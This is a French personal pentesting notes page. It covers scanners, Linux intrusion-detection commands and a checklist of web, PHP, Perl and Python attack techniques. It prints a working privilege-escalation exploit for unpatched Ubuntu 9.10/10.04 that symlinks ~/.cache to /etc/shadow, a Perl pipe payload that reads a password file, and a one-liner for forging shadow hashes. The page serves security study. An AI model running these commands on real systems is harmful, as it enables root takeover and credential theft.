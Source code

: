 <head>
  <meta http-equiv="content-type" content="text/html; charset=utf-8" />
  <title>Methode - hacking</title>
</head>
[index](index.html)

## Hacking machines

### Utilisation de Kali

- Installer une full pour avoir metasploit
- Les wordlists sont dans /usr/share/wordlists

### Recherche vulnerabilités

- Banner grabbing: $nc [ip] [port] : ex donne info sur serveur web.
- NeXpose (Rapid7), possibilite de sauver le report en xml pour relecture dans msf. Il existe aussi plugin "nexpose" pour msf.
- Nessus (Tenable Security). Il existe aussi plugin "nessus" pour msf.
- OpenVAS : Fork Open Source de Nessus (qui est devenu close) - Installé sur https://127.0.0.1:9392. Se paramètre via openvasmd, par exemple pour reinit le password d'admin:
    $ openvasmd --user=admin --new-password=letmein

### Détection intrusion

- who et w : utilisateurs connectés
- last : dernières connexions
- lastb : derniers echecs de connexion
- /var/log/auth.log : plus complet sur différents moyens de connexion
- history : historique des commandes de l'utilisateur
- ac (package acct) avec l'option "-dp" : temps de connexion de chaque utilisateur
- lastcomm (package acct) : dernières commandes exécutées sur le système
- netstat (-t,-u,-p,-l,-a,-n) : ports réseaux du système
- lsof : liste des ressources (files, pipes...) en cours d'utilisation...). Option -p pour filtrer sur un processus, -u pour un user
- Vérifier aussi crontab


### [Metasploit](hacking-metasploit.html)

### Exploit linux

Sur ubuntu non patche:
Aujourd'hui, une faille de sécurité assez simple à mettre en oeuvre a été révélée. Elle n'impacte que la distribution Linux Ubuntu sur les versions 9.10 et 10.04.

Celle-ci concerne donc ce problème de sécurité qui permet à n'importe quel utilisateur loggué sur la machine d'acquérir les droits du compte root (superadmin).

L'exploit se base sur une faiblesse du module pam_motd qui est intégré dans la chaine d'authentification.

Il est donc possible de simplement le retirer la pile pam via les fichiers de configuration ou de mettre à jour comme préconisé.

Je vous communique l'exploit à titre d'information:

Admettons que je sois loggué sur la machine sous l'utilisateur: franck

---

rm -rf ~/.cache

ln -s /etc/shadow ~/.cache

ssh localhost

---

Vous voila propriétaire du fichier /etc/shadow !

Ce qui vous permettra bien évidemment de récupérer l'accès root...

## Hacking web

### Recherche de vulnerabilités
- DirBuster : projet owasp (arrêté) pour bruteforcer l'arborescence d'un site web. Remplacé par ZAP
- Owasp ZAP (Zed Attack Proxy) - Recherche de vulns sur un site web

### Les attaques
- Regarder le source généré (CTRL+U sur Firefox)
- Regarder les autres fichiers chargés (y.c leur code source, notamment pour js et css)
- Lire le header de retour
- Modification du user-agent ou autres parties header
- Décoder le fonctionnement du javascript
- Tester les user/pwd triviaux. 
- Fichiers backup (~, bak, old, sav)
- Regarder si un fichier robots.txt est présent
- Fichiers autogénérés comme .pyc si site en python
- La présence d'un répertoire de livraison
- La présente du répertoire .git/ ou .svn... ou même /git
- Injection de paramètre : comme dans sqli on peut fermer les apostrophes ou braquets et rajouter d'autre code
- [XSS injection](xss.html)
- XXE : un peu comme XSS mais grace aux entités et aux dtd. A noter qu'on peut faire des XXE permettant d'envoyer le résultat avant la fin de la page.
- XSL : il est possible de faire des choses sympa si on peut modifier le xsl : connaître le moteur xsl et sa version, dans certains cas injecter des commandes, lire des documents choisis (ou en partie), voire même écrire.
- Injection sql (blind, différents moteurs, time attack, tables systèmes)
- Injection xpath (cf sql)
- LFI : upload de fichier (mime, extension, php dans fichier, null byte dans nom) + moyen executer
- S'il est possible d'uploader des fichiers compressés (ou au moins .tar) qui seront décompressés : mettre un symlink 
- Modification du cookie
- Directory indexing/traversing - Essayer de deviner les répertoires
- Fichiers/répertoire d'install
- CRLF : permet de leurrer utilisateur, ou mailer
- Utilisation de fiddler ou wireshark pour voir ce qui est vraiment échangé sur le réseau

### Les attaques PHP
- PHP : register globals (pour les var non initialisées) - vieilles versions
- [PHP wrappers](phpwrappers.html) : affiche contenu des fichiers php...
- Contournement de filtre : la commande chr() peut accepter des valeurs négatives (complément à 256)
- Contournement de filtre : un preg_replace("/^blabla/"...) peut être trompé par une chaîne commençant par un "\n..."
- Passer en argument un array (de type user[]) là où il s'attend à une valeur classique donne parfois des résultats intéressants
- Les conversions implicites sont une source de faille. Les différentes manières d'écrire des nombres (par exemple forme exponentielle 5.14e18) peut rajouter de la confusion en laissant le champ à 2 interprétations selon le contexte 

### Les attaques Perl
- On peut utiliser des pipes dans un open de perl, par exemple si on appelle un fichier "|cat .passwd"...

### Les attauqes Python
- S'il y a des imports, on peut modifier le $PYTHONPATH pour regarder d'abord dans /tmp par exemple
- Jailbreak : utiliser notamment https://docs.python.org/2/library/inspect.html. Par exemple .func_code, .co_code, .co_consts

### Javascript
- Il existe des deobfuscator online
- Il faut parfois faire des replace à la main
- Attention aux conversions implicites en chaîne ou int selon le contexte

### Les outils

1. md5sum : Pour générer la somme md5. Ex: echo bob | md5sum

- python -c "import crypt, getpass, pwd; print crypt.crypt('password', '\$6\$salt\$')"
=> pour creer /etc/shadow

- Serveur web avec netcat : while true; do nc -l -p 8080 < index.html; done 
UTILISER EN FAIT nc.traditional au lieu de nc
http://www.monip.org : 82.238.192.170



- Manipuler de l'hexa : xxd et hd

## Hacking imprimantes

Il semble que [PRET](https://github.com/RUB-NDS/PRET) PRinter Exploitation Toolkit (outils pythons) soit pas mal utilisé.


